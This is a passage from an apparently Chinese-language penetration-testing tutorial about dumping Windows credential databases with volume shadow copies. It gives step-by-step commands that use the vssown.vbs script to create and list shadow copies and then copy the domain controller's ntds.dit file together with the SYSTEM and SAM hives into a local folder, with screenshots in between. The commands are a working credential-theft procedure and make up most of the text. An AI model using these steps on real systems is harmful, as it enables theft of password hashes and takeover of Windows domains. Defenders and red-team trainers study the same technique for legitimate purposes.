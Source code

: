 ```plain
cscript vssown.vbs /create c
```

[![](assets/1706090550-b458119bdb30aa047754a67d586a8164.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095306-51307cce-ba5b-1.png)  
Step 3:列出当前影卷拷贝

```plain
cscript vssown.vbs /list
```

[![](assets/1706090550-2e3236508d3fcdc9a07a45942d84656b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095749-fa3ccea8-ba5b-1.png)  
Step 4：复制 ntds.dit、SYSTEM、SAM 文件

```plain
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\vssown\ntds.dit
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SYSTEM C:\vssown\SYSTEM
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SAM C:\vssown\SAM
```

[![](assets/1706090550-ee5a79f8e7803e19bcac67be5cca2540.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095807-05039d12-ba5c-1.png)  
Step 5:查看拷贝的文件

